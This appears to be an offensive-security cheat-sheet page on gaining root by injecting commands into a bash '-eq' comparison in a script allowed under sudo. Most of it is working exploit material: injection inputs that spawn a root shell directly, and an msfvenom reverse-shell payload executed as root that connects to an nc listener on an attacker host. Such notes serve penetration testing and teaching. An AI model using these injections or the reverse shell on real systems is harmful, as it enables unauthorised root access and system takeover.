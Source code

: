 ```yaml
---
title: Bash eq Privilege Escalation
description: The `-eq` comaparison in bash script is vulnerable to arbitrary command execution.
tags:
  - Privilege Escalation
refs:
    - https://www.vidarholen.net/contents/blog/?p=716
date: 2023-03-16
draft: false
---
```


## Investigation

Please see [this post](https://www.vidarholen.net/contents/blog/?p=716) for details.

```bash
sudo -l

(root) /bin/bash /opt/example.sh
```

If we can execute above command as root, and the **`/opt/example.sh`** contains the numeric comparison such as **`[[ $var -eq 42 ]]`**, we can execute arbitrary command.

```bash
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```

To execute arbitrary command, answer this question as below.

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(date >&2)]+42
Sun Feb  4 19:06:19 PST 2018
Correct
```

inject arbitrary command before the correct number (**42**).

<br />

## Exploitation (Get a Shell Directly)

It’s easy if we can execute the bash script as root.  
We only need to insert **`/bin/sh`** or **`/bin/bash`** command in the answer.

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/sh >&2)]+42
$
```

<br />

## Exploitation (Get a Shell Indirectly)

We can also inject a bash script and execute arbitrary code.  
First, create a reverse shell script **`/tmp/shell.elf`** using **msfvenom**.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o /tmp/shell.elf
chmod +x /tmp/shell.elf
```

Then start a listener in local machine.

```bash
nc -lvnp 4444
```

Now execute the bash script as root.

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

We should get a root shell in local terminal.
